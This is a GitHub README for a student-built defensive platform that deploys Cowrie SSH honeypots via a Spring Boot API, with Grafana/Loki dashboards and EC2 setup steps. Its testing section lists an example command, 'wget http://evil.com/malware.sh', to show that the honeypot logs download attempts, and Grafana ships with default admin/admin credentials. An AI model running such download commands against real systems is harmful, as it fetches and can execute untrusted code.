

# Honeypot as a Service

A cloud-native honeypot deployment platform built with Spring Boot that enables on-demand creation and management of SSH honeypots (Cowrie) with centralized log aggregation and visualization.

## Architecture



## Tech Stack

| Component | Technology | Purpose |
|-----------|------------|---------|
| API | Spring Boot 3.5.9 (Java 21) | REST endpoints for honeypot management |
| Container Management | Docker Java API | Programmatic container lifecycle |
| Honeypot | Cowrie | SSH/Telnet honeypot |
| Log Aggregation | Grafana Loki 3.0 | Log storage and indexing |
| Log Collection | Promtail 3.0 | Container log shipping |
| Visualization | Grafana | Dashboards and alerting |

## Quick Start (Local)

### Prerequisites

- Docker Desktop (with WSL2 integration on Windows)

### Running the Stack

```bash
# Clone the repository
git clone https://github.com/MoeMaloudi/honeypot-service.git
cd honeypot-service

# Build and start all services
docker compose up -d --build

# Pull Cowrie image (required for honeypot creation)
docker pull cowrie/cowrie:latest

# Verify services are running
docker ps
```

### Access Points

| Service | URL | Credentials |
|---------|-----|-------------|
| Honeypot API | http://localhost:8080 | - |
| Grafana | http://localhost:3000 | admin / admin |

## API Endpoints

### Create Honeypot
```bash
curl -X POST http://localhost:8080/honeypots
```
Response:
```json
{"port":"2222","id":"951f6a7f9929...","status":"running"}
```

You can create **multiple honeypots** - each one gets a unique port number (2222, 2223, 2224, etc.). The port number identifies which honeypot captured the activity in the Grafana dashboards.

### List Honeypots
```bash
curl http://localhost:8080/honeypots
```
Returns all running honeypot containers with their port numbers and container IDs.

### Delete Honeypot
```bash
curl -X DELETE http://localhost:8080/honeypots/{containerId}
```
Stops and removes the honeypot container. Use the container ID from the create or list response.

### View Running Honeypots (Docker)
```bash
# View honeypot containers only
docker ps --filter "label=app=honeypot"

# View all running containers
docker ps
```

## Testing the Honeypot

```bash
ssh root@localhost -p 2222
# Accept the fingerprint, enter any password
# You're now in the fake Cowrie shell (root@svr04)
```

Try running commands - Cowrie will respond with fake data:
- `whoami` → returns `root`
- `cat /etc/passwd` → shows fake users
- `wget http://evil.com/malware.sh` → pretends to download (logged with SHA-256)

All activity is logged and visible in Grafana dashboards.

## Grafana Dashboards

Seven pre-configured dashboards auto-provision on startup:

| Dashboard | Description |
|-----------|-------------|
| Login Attempts Over Time | Time-series of auth attempts per honeypot |
| Password Attempts | Live feed: IP, username, password, status |
| Top 5 Passwords Tried | Pie chart of most common passwords |
| Top 5 Usernames Tried | Pie chart of most common usernames |
| Attacker Connections | New connections with source IPs |
| Honeypot Shell Activity | Commands executed post-login |
| Download Attempts | Malware downloads with SHA-256 hashes |

## AWS Deployment

### Platform Comparison

| AWS Service | Honeypot Creation | Reason |
|-------------|-------------------|--------|
| App Runner | Does not work | No Docker socket access |
| ECS Fargate | Does not work | No Docker socket access |
| **EC2** | **Works** | Full Docker daemon access |

**Recommendation**: Use EC2 for deployment. App Runner and ECS Fargate were tested but do not support this application because they run containers in isolated serverless environments without access to the Docker daemon socket (`/var/run/docker.sock`), which is required to create honeypot containers dynamically.

### EC2 Deployment

```bash
# SSH into EC2 instance
ssh -i ~/.ssh/your-key.pem ec2-user@<EC2_PUBLIC_IP>

# Install Docker
sudo yum update -y
sudo yum install -y docker git
sudo systemctl start docker
sudo systemctl enable docker
sudo usermod -aG docker ec2-user

# Install Docker Compose plugin
sudo mkdir -p /usr/local/lib/docker/cli-plugins
sudo curl -SL https://github.com/docker/compose/releases/latest/download/docker-compose-linux-x86_64 -o /usr/local/lib/docker/cli-plugins/docker-compose
sudo chmod +x /usr/local/lib/docker/cli-plugins/docker-compose

# Install Buildx
sudo curl -SL https://github.com/docker/buildx/releases/download/v0.19.3/buildx-v0.19.3.linux-amd64 -o /usr/local/lib/docker/cli-plugins/docker-buildx
sudo chmod +x /usr/local/lib/docker/cli-plugins/docker-buildx

# Logout and login again for group changes
exit
# SSH back in

# Clone and run
git clone https://github.com/MoeMaloudi/honeypot-service.git
cd honeypot-service
docker compose up -d --build
docker pull cowrie/cowrie:latest

# Test
curl -X POST http://localhost:8080/honeypots
```

### Required EC2 Security Group Ports

| Port | Service |
|------|---------|
| 22 | SSH |
| 8080 | Honeypot API |
| 3000 | Grafana |
| 2222-2230 | Honeypot SSH ports |

## Project Structure

```
honeypot-service/
├── src/main/java/com/honeypot/honeypot_service/
│   ├── HoneypotServiceApplication.java    # Spring Boot entry point
│   ├── HoneypotController.java            # REST endpoints
│   ├── HoneypotService.java               # Container lifecycle logic
│   └── DockerConfig.java                  # Docker client configuration
├── grafana/provisioning/
│   ├── datasources/
│   │   └── loki.yml                       # Auto-configures Loki connection
│   └── dashboards/
│       ├── dashboards.yml                 # Dashboard provisioning config
│       └── *.json                         # Dashboard definitions
├── build.gradle                           # Dependencies and build config
├── Dockerfile                             # Multi-stage Spring Boot build
├── docker-compose.yml                     # Full stack orchestration
└── promtail-config.yml                    # Log collection configuration
```

## Cleanup

```bash
# Stop the stack
docker compose down

# Remove honeypot containers
docker rm -f $(docker ps -aq --filter "label=app=honeypot")

# Full cleanup including volumes
docker compose down -v
```

## Troubleshooting

**SSH key changed error**
```bash
ssh-keygen -R '[localhost]:2222'
```

**No logs in Grafana**
```bash
curl http://localhost:3100/ready
docker logs honeypot-service-promtail-1
```

**Cowrie image not found**
```bash
docker pull cowrie/cowrie:latest
```

## Resources

- Cowrie SSH Honeypot: https://github.com/cowrie/cowrie
- Grafana: https://grafana.com/
- Grafana Loki: https://grafana.com/oss/loki/
- Promtail: https://grafana.com/docs/loki/latest/clients/promtail/
- Spring Boot: https://spring.io/projects/spring-boot
- Docker: https://www.docker.com/
- Docker Java API: https://github.com/docker-java/docker-java

## Author

Mohammed Maloudi - MSc Computing, Atlantic Technological University

GitHub Repository: https://github.com/MoeMaloudi/honeypot-service
